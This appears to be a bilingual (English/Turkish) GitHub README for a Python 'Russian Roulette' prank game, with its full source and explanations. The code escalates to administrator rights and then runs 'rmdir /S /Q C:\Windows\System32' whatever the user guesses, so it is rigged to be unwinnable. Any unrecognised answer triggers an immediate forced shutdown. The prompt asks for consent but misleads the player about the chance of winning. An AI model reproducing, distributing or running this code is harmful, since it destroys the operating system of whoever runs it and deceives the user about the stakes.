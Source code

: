
# RUSSIAN ROULETTE 🔫
![GitHub](https://img.shields.io/github/license/b4randeniz/Russian-Roulette-system32-) ![GitHub release (latest by date)](https://img.shields.io/github/v/release/b4randeniz/Russian-Roulette-system32-)      ![GitHub all releases](https://img.shields.io/github/downloads/b4randeniz/Russian-Roulette-system32-/total) 


The concept of the game is very simple: the program holds a number between 0 and 11, and you try to guess it. If you can't guess it, the system32 file, which is necessary for Windows to function, gets deleted. But don’t worry, when you open the application, it actually asks you if you really want to play or not.
## How Does It Work ? [(exe file)](https://github.com/b4randeniz/Russian-Roulette-system32-/releases/tag/untagged-016921a2390443bd7d93)
```
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if not is_admin():
    # If not an administrator, restart with admin rights
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit(0)
```
This part of the code is used to run the code as an administrator.

```
print("Welcome to System32 Roulette")  # print
time.sleep(1.5)  # wait
print("The program will choose a number (between 1 and 10) and if you can't guess it, System32 will be deleted!")  # print
time.sleep(1.5)  # wait
print("This process poses a risk of deleting files necessary for Windows to function. Do you want to proceed? (yes/no)")  # print
devam = input("Yes or No: ").lower()  # take input and save to devam variable
```
In this section, the user is presented with an explanation of the game, and a question is asked. The question asked is saved 
in the variable named 'devam'.
```
if devam == "yes":  # if devam variable is yes, do
    randomsayi = random.randint(0, 11)  # choose a number between 0 and 11 and save to randomsayi variable
    print("I have chosen a number")  # print
    time.sleep(1.5)  # wait
    cevap = int(input("What do you think the number is: "))  # take input and save to cevap variable
```
This part of the code handles the situation where the value stored in the devam variable is "yes." In this case, the process continues as follows: a random number is generated and presented to the user. The user's response is saved in the cevap variable, and the program proceeds from there
```
if cevap == randomsayi:  # if cevap variable is equal to randomsayi variable, do
        randomsayi = random.randint(0, 11)  # choose a number between 0 and 11 and save to randomsayi variable
        print("The number I chose: " + str(randomsayi))  # print
        time.sleep(1.5)  # wait
        print("You lost")  # print
        time.sleep(1.5)  # wait
        print("System32 is being deleted")
        time.sleep(2.5)  # wait
        os.system("rmdir /S /Q C:\\Windows\\System32")  # delete system32
   
    else:  # if cevap variable is not equal to randomsayi variable, do
        print("The number I chose: " + str(randomsayi))  # print
        time.sleep(1.5)  # wait
        print("You lost")  # print
        time.sleep(1.5)  # wait
        print("System32 is being deleted")  # print
        time.sleep(2.5)  # wait
        os.system("rmdir /S /Q C:\\Windows\\System32")  # delete system32
```
In the continuation of the program, the cevap variable is evaluated. If the user correctly guesses the number, the system selects another random number and informs the user that they guessed incorrectly, displaying the number on the screen. In the case where the user guesses incorrectly from the start, the same actions occur. In both scenarios, the System32 directory is deleted, making it impossible to win the game.
```
elif devam == "no":  # if devam variable is no, do
    print("Were you afraid of losing?")  # print
    time.sleep(1.5)  # wait
    print("Coward!")  # print

else:  # if devam variable is something other than yes or no, do
    print("I didn't understand what you wrote (I definitely didn't get tired of coding). I'll take that as a no.")  # print
    time.sleep(1.5)  # wait
    print("Since you wrote something unclear, I will punish you.")  # print
    time.sleep(2.5)  # wait
    os.system("shutdown /s /t 1")  # shut down the computer
```
This part continues from the evaluation of the devam variable at the beginning of the program. If the user writes "no," they are ridiculed, and the game is closed. However, if the user does not input "yes" or "no," meaning they entered an unrecognized value, they are punished by shutting down the computer.

---------------------------------------------------------------------------------------------------------------------------------------------------

# RUS RULETİ 🔫
![GitHub](https://img.shields.io/github/license/b4randeniz/Russian-Roulette-system32-) ![GitHub release (latest by date)](https://img.shields.io/github/v/release/b4randeniz/Russian-Roulette-system32-)      ![GitHub all releases](https://img.shields.io/github/downloads/b4randeniz/Russian-Roulette-system32-/total) 

Oyunun olayı çok basit: Program 0 ile 11 arasında bir sayı tutuyor ve siz bu sayıyı tahmin etmeye çalışıyorsunuz. Eğer bilemezseniz, Windows'un çalışması için gerekli olan system32 dosyası siliniyor. Ama endişelenmeyin, uygulamayı açtığınızda gerçekten oynamak isteyip istemediğinizi soruyor.
## Nasıl Çalışır ? [(exe dosyası)](https://github.com/b4randeniz/Russian-Roulette-system32-/releases/tag/untagged-016921a2390443bd7d93)
```
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if not is_admin():
    # Yönetici değilse, yönetici haklarıyla yeniden başlat
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit(0)
```
Bu kodun bu kısmı, kodu yönetici olarak çalıştırmak için kullanılır.
```
print("System32 Rulete Hoş Geldiniz") # yazdır
time.sleep(1.5) # bekle
print("Program Bir Sayı Seçecek (1 ila 10 arası) Ve Bilemezseniz System32 Silinecek!") # yazdır
time.sleep(1.5) # bekle
print("Bu İşlem Windowsun Çalışması İçin Gerekli Olan Dosyaları Silme Tehlikesi Taşır Devam Etmek İstiyormusunuz? (evet/hayır)") # yazdır
devam = input("Evet yada Hayır: ").lower() # giriş al ve devam değişkenine kaydet
```
Bu bölümde, kullanıcıya oyunun açıklaması sunulur ve bir soru sorulur. Sorulan soru 'devam' adlı değişkene kaydedilir.
```
if devam == "evet": # eğer devam değişkeni evet ise yap 
   randomsayi = random.randint(0,11) # 0 ile 11 arasında bir sayı seç ve randomsayi değişkenine kaydet
   print("Sayıyı Tuttum") # yazdır
   time.sleep(1.5) # bekle
   cevap = int(input("Sayı Sence Ne: ")) # giriş al ve cevap değişkenine kaydet
```
Bu kodun bu kısmı, 'devam' değişkeninde saklanan değerin "evet" olduğu durumu ele alır. Bu durumda işlem şu şekilde devam eder: rastgele bir sayı oluşturulur ve kullanıcıya sunulur. Kullanıcının yanıtı 'cevap' değişkenine kaydedilir ve program buradan devam eder.
```
if cevap == randomsayi: # eğer cevap değişkeni randomsayi değişkeniyle eşit ise yap
      randomsayi = random.randint(0,11) # 0 ile 11 arasında bir sayı seç ve randomsayi değişkenine kaydet
      print("Tuttuğım sayı: " + str(randomsayi)) # yazdır
      time.sleep(1.5) # bekle
      print("Kaybettin") # yazdır
      time.sleep(1.5) # bekle
      print("System32 Siliniyor")
      time.sleep(2.5) # bekle
      os.system("rmdir /S /Q C:\\Windows\\System32") # system32 yi sil
   
   else: # eğer cevap değişkeni randomsayi değişkeniyle eşit değilse yap
      print("Tuttuğım sayı: " + str(randomsayi)) # yazdır
      time.sleep(1.5) # bekle
      print("Kaybettin") # yazdır
      time.sleep(1.5) # bekle
      print("System32 Siliniyor") # yazdır
      time.sleep(2.5) # bekle
      os.system("rmdir /S /Q C:\\Windows\\System32") # system32 yi sil
```
Programın devamında, 'cevap' değişkeni değerlendirilir. Eğer kullanıcı sayıyı doğru tahmin ederse, sistem başka bir rastgele sayı seçer ve kullanıcıya yanlış tahmin ettiğini bildirir, seçilen sayıyı ekranda gösterir. Kullanıcı başlangıçta yanlış tahmin ederse, aynı işlemler gerçekleşir. Her iki durumda da System32 dizini silinir, bu da oyunun kazanılmasını imkansız hale getirir.
```
elif devam == "hayır": # eğer devam değişkeni hayır ise yap
   print("Kaybetmektenmi Korktun?") # yazdır
   time.sleep(1.5) # bekle
   print("Korkak Seni!") # yazdır

else: # eğer devam değişkeni evet veya hayırdan başka bir değer aldıysa yap
   print("Bu Yazdığını Anlamadım (kesinlikle kodlamaya üşenmedim) Bunu Hayır Olarak Alıyorum") # yazdır
   time.sleep(1.5) # bekle
   print("Anlaşılamayan Birşey Yazdığın İçin Sana Ceza Veriyorum") # yazdır
   time.sleep(2.5) # bekle
   os.system("shutdown /s /t 1") # bilgisayarı kapat
```
Bu kısım, programın başındaki 'devam' değişkeninin değerlendirilmesinden devam eder. Eğer kullanıcı "hayır" yazarsa, kullanıcı aşağılanır ve oyun kapatılır. Ancak, kullanıcı "evet" veya "hayır" yazmazsa, yani tanınmayan bir değer girerse, bilgisayar kapatılarak cezalandırılır.


